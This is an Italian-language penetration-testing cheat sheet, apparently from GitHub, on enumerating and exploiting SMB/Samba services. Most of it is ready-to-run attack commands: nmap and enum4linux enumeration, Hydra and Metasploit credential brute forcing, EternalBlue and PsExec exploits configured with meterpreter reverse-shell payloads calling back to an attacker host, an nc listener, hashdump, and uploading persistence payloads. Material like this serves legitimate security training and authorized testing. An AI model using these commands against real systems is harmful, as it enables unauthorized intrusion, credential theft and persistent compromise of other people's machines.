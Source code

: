 # SMB & Samba Enumeration & Exploitation

**SMB (Server Message Block)** è un protocollo di rete utilizzato principalmente nei sistemi Windows per la condivisione di file, stampanti e altre risorse. <br>
**Samba** è la sua implementazione libera in ambiente Linux/Unix, consentendo l’interoperabilità tra Windows e Linux. Entrambi operano sulle porte `445/TCP` (moderno) e `139/TCP` (legacy via NetBIOS). SMB/Samba è spesso abilitato di default, rendendolo un obiettivo comune durante un penetration test.

---

## Fase 1 – Scansione e Identificazione del Servizio

Per rilevare la presenza del servizio SMB/Samba e identificare la versione:

`nmap -sV -p139,445 <target>` ⟶ rileva SMB sulle porte NetBIOS e SMB Direct

Per ottenere maggiori informazioni:
- `nmap --script smb-os-discovery <target>` ⟶ sistema operativo, dominio, NetBIOS
- `nmap --script smb-enum-shares <target>` ⟶ condivisioni disponibili
- `nmap --script smb-enum-users <target>` ⟶ utenti configurati
- `nmap -p445 --script smb-vuln-ms17-010 <IP>` ⟶ verifica EternalBlue per Windows

Con Metasploit:
- `use auxiliary/scanner/smb/smb_version` ⟶ verifica versione SMB
- `use auxiliary/scanner/smb/smb_ms17_010` ⟶ verifica vulnerabilità EternalBlue per Windows

Identificare la versione aiuta a cercare exploit con:
`searchsploit samba <versione>`

Versioni vulnerabili comuni:
- **SMBv1** ⟶ EternalBlue (MS17-010)
- **Windows XP/2003/7 non patchati** ⟶ buffer overflow
- **vsrvsvc** ⟶ vulnerabilità RPC

---

## Fase 2 – Enumerazione Manuale del Servizio

### smbclient
Client simile a FTP per connettersi e interagire con le share:
- `smbclient -L //<target>/ -N` ⟶ condivisioni anonime
- `smbclient -L <IP> -U <username>` ⟶ share disponibili per utente
- `smbclient //<target>/<share> -U <username>` ⟶ accesso alla share

Comandi interni:
- `?`, `ls`, `get <file>`, `put <file>`, `cd`, `mkdir`, `rmdir`

### smbmap
Consente di elencare share e permessi associati:
- `smbmap -H <IP> -u <username> -p <password>`

Permessi comuni:
- `R` = lettura, `W` = scrittura, `-` = nessun accesso

### enum4linux
Strumento completo basato su `smbclient`, `rpcclient`, `nmblookup`:
- `enum4linux -a <IP>` ⟶ utenti, share, NetBIOS, gruppi, policy

### rpcclient
Permette l’interazione con i servizi RPC via SMB:
- `rpcclient -U "" <IP>` ⟶ connessione null session
- Comandi: `enumdomusers`, `enumdomgroups`, `queryuser <RID>`

---

## Fase 3 – Verifica Null Session

Una **null session** è una connessione SMB senza credenziali, potenzialmente utile per ottenere:
- Nomi utenti
- Share
- Informazioni di dominio

Test:
- `rpcclient -U "" <target>`
- `smbclient -L //<target>/ -N`

---

## Fase 4 – Brute Force delle Credenziali

### Con Hydra
`hydra -L <userList> -P <passwordList> <IP> smb` ⟶ attacco SMB/Samba

### Con Metasploit
```bash
use auxiliary/scanner/smb/smb_login
set RHOSTS <IP>
set USER_FILE <user_list>
set PASS_FILE <pass_list>
run
```

### Con CrackMapExec
- `crackmapexec smb <target> -u <user> -p <password>` ⟶ verifica credenziali
- `crackmapexec smb <target> --shares` ⟶ elenca condivisioni
- `crackmapexec smb <target> --users` ⟶ enumera utenti

---

## Fase 5 – Exploitation

### Exploit EternalBlue (MS17-010)

Con Metasploit:
```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <IP>
set SMBPIPE BROWSER
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <KaliIP>
set LPORT <Port>
run
```

Una volta ottenuta la shell:
- `getuid`, `getprivs`, `hashdump`

Con <a href="https://github.com/3ndG4me/AutoBlue-MS17-010">AutoBlue-MS17-010</a>:
```bash
cd AutoBlue-MS17-010/shellcode
chmod +x shell_prep.sh
./shell_prep.sh
nc -nvlp 4444
python eternalblue_exploit7.py <IP> shellcode/sc_x64.bin
```

### PsExec (Metasploit)
```bash 
use exploit/windows/smb/psexec
set RHOSTS <IP>
set SMBUser <username>
set SMBPass <password>
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <KaliIP>
set LPORT <Port>
run
```

### Impacket – psexec.py
`psexec.py <username>@<IP> cmd.exe`⟶ accesso CMD remoto via SMB <br>
Percorso tipico: `/usr/share/doc/python3-impacket/examples/psexec.py`

---

## Fase 6 – Post Exploitation

Dopo l’accesso:
- Scarica `.txt`, `.conf`, `.xml`, `.ini`, `.bak`
- Carica payload/script di persistence
- Verifica se le share sono usate da processi attivi o servizi web

Comandi utili:
- `wget smb://<IP>`
- `curl smb://<IP>`
- `lftp <IP>`

---
